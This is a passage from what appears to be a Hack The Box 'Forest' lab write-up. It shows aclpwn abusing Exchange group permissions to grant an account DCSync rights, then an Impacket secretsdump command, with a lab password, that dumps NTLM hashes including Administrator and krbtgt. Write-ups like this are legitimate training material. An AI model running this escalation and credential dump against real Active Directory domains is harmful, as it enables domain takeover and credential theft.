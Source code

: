 ```
[+] Added CN=svc-alfresco,OU=Service Accounts,DC=htb,DC=local as member to CN=Exchange Trusted Subsystem,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
[-] Re-binding to LDAP to refresh group memberships of SVC-ALFRESCO@HTB.LOCAL
[+] Re-bind successful
[-] Memberof -> continue
[-] Modifying domain DACL to give DCSync rights to SVC-ALFRESCO
[+] Dacl modification successful
[+] Finished running tasks
[+] Saved restore state to aclpwn-20200104-223425.restore
```

Important paths to flag from what aclpwn found (can be also seen by reviewing Sharphound's data in Bloodhound):
1. Path [0]: (SVC-ALFRESCO@HTB.LOCAL)-[MemberOf]->(SERVICE ACCOUNTS@HTB.LOCAL)-[MemberOf]->(PRIVILEGED IT ACCOUNTS@HTB.LOCAL)-[MemberOf]->(ACCOUNT OPERATORS@HTB.LOCAL)-[GenericAll]->(EXCHANGE TRUSTED SUBSYSTEM@HTB.LOCAL)-[MemberOf]->(EXCHANGE WINDOWS PERMISSIONS@HTB.LOCAL)-[WriteDacl]->(HTB.LOCAL)

2. Path [1]: (SVC-ALFRESCO@HTB.LOCAL)-[MemberOf]->(SERVICE ACCOUNTS@HTB.LOCAL)-[MemberOf]->(PRIVILEGED IT ACCOUNTS@HTB.LOCAL)-[MemberOf]->(ACCOUNT OPERATORS@HTB.LOCAL)-[GenericAll]->(EXCHANGE WINDOWS PERMISSIONS@HTB.LOCAL)-[WriteDacl]->(HTB.LOCAL)

I selected PATH 0, but as you can notice by examining each path, there is not much of a difference; path 0 is somewhat longer as relies on being a member of EXCHANGE TRUSTED SUBSYSTEM, and the good one is EXCHANGE WINDOWS PERMISSIONS, BUT the first is a member of EXCHANGE WINDOWS PERMISSIONS anyways.

Technically speaking, we used the permissions svc-alfresco already has to modify accounts by being an "indirect" member of EXCHANGE TRUSTED SUBSYSTEM and EXCHANGE WINDOWS PERMISSIONS to delegate rights to itself by modifying domain DACL and give DCSync rights to itself. I know, it sounds confusing to explain!! At least the last Bloodhound screenshot shows this better.

As we select a path and it was successful, we have to move fast and try to use it to dump secrets (NTDS.DIT). Let's use Impacket's Secretdump


### SECRETSDUMP
```
root@kali:~/Documents/HTB-Labs/Forest# /opt/impacket/examples/secretsdump.py -dc-ip forest.htb svc-alfresco:s3rvice@forest.htb
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\$331000-VK4ADACQNUCA:1123:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_2c8eef0a09b545acb:1124:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_ca8c2ed5bdab4dc9b:1125:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_75a538d3025e4db9a:1126:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_681f53d4942840e18:1127:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_1b41c9286325456bb:1128:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_9b69f1b9d2cc45549:1129:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_7c96b981967141ebb:1130:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_c75ee099d0a64c91b:1131:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```